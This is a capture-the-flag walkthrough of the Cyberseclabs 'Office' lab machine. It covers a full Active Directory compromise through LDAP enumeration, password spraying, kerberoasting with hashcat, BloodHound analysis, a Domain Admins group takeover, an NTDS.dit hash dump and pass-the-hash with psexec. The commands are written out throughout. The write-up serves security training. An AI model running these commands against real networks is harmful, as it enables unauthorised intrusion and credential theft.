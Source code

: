 ## Cyberseclabs - Office Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services runnign on the system.

![73349604a8fada606c18df0f2bb2a237.png](:/1077d4eea06c46fa9137497a699a85f2)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![209685384c341b2a13bcc6db154cf76c.png](:/7e9af7eeebda45f3ae823d8abe3cf6db)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![639d87e4e1694f8ae37b4cc25f6ea63f.png](:/6c38a486d1e04b48a2172db9ac54f0eb)
As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![4dd494b148b665de253b7fe1343591e9.png](:/b51447c66b6648e4a138fcc8ab7441c7)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>
By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](:/a1b44b37346f4e0fb3480c0154b0cc11)
![crhodes.PNG](:/9f6e86fdae3f4053b14830addd15e512)
![ssmith.PNG](:/cb9e3b8c42db4f6fb16dff6ea8806503)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>
Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](:/b7fe7f7db2734ab18915ed5945a091bb)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](:/5a9bd062dad3454d9295e0eec56e432e)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>
By password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](:/2e0db6036f134be99798de82b798da6a)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](:/93faf572df834310b5343b06a599d6b0)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](:/9d2b16f553d84df2951f9689294fdd61)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](:/ff9b4cc26c334b89bd1f750d5d2912c7)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>
Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- 1. Setup impacket's smb-server
	![smbserver.PNG](:/54cf1644a058412d9a55a2b9c1c0aa60)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- 2. Setup new PSDrive on target machine and mount the share
	![mount.PNG](:/398e5a4e63a144fc958448c879cbced7)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- 3. CD into your share, run bloodhound 
	![sharphound.PNG](:/2f6ae4c9a7374933b2728986f3982fc6)
	- Make sure you upload bloodhound to the directory you created as the share
- 4. Start Bloodhound 
	![bloodhound.PNG](:/a9c5e0824a3a439c81e1b932a7ea1800)
	- neo4j console start
	- bloodhound 

- 5. Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](:/2711aa242a804c03b025b94010c39446)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- 1. Mark user **roastsvc** as **Owned**
	![owned_user.jpg](:/033ae512d51744ef89eb9d29f9d9aca7)
- 2. Use the built-in query 
	![path_to_DA.jpg](:/3af3c76e4f674c14820c983328777f04)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](:/0fc9fc58b26c431c96e384bff32cfe1c)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- 1. List all current members of **Domain Admins** group
	![original_DA_members.PNG](:/51cae26bbcac4ea29e3007122e929219)
	- net group (group-name) /domain
- 2. Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](:/6845e2604392431186fd5dd30a0a00fb)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- 3. Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](:/6ab0558a3ede405a8debb43f10645a3b)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- 1. Dumping the NTDS.dit hash file 
	![secretsdump.PNG](:/97bc160a3efd40349047ef7a3e553550)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- 2. Get the Administrator's hash
	![admin_hash.PNG](:/259cd6438d5445a4b6007cea42617c99)
- 3. PSExec 
	![psexec.PNG](:/97ad6061099f4f5e9ed1effca035842b)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















